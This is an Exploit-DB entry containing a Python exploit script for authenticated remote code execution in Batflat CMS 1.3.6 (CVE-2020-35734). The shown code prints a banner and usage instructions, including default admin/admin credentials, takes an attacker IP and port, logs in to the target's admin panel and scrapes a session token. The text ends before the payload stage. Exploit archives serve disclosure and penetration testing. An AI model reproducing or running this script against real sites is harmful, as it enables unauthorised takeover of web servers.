 ```py
# Exploit Title: Batflat CMS 1.3.6 - Remote Code Execution (Authenticated)
# Date: 2020-12-27
# Exploit Author: mari0x00
# Vendor Homepage: https://batflat.org/
# Software Link: https://github.com/sruupl/batflat/archive/master.zip
# Description: https://secator.pl/index.php/2021/02/15/batflat-v-1-3-6-authenticated-remote-code-execution-public-disclosure/
# Version: <= 1.3.6
# CVE: CVE-2020-35734

#!/usr/bin/python3

import requests
import sys
import re
from bs4 import BeautifulSoup
from termcolor import colored
from time import sleep

print(colored('''###########################################################''',"red"))
print(colored('''#######    Batflat authenticated RCE by mari0x00    #######''',"red"))
print(colored('''###########################################################''',"red"))
print("")

if len(sys.argv) != 6:
    print((colored("[~] Usage : python3 batpwnd.py <url> <username> <password> <IP> <PORT>","red")))
    print((colored("[~] Default credentials: admin/admin","red")))
    print((colored("[~] Example: python3 batpwnd.py http://192.168.101.105/ admin admin 192.168.101.101 4444","red")))
    exit()
url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
IP = sys.argv[4]
PORT = sys.argv[5]


#Start session
s = requests.Session()
headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'}


#Authenticate
print((colored("[+] Attempting user login","blue")))

login_data = {
    "username": username,
    "password": password,
    "login": "",
   }

login = s.post(url+"admin/", login_data, headers=headers)
sleep(0.5)

#Get token
print((colored("[+] Retrieving the token","blue")))
r = s.get(url+"admin/", headers=headers).content
soup = BeautifulSoup(r, "lxml")
token = (re.search(r't=(.*?)">Add', str(soup)).group(1))
print((colored("[+] Token ID: " + token,"blue")))
sleep(0.5)

```

[exploitdb]: https://www.exploit-db.com/exploits/49573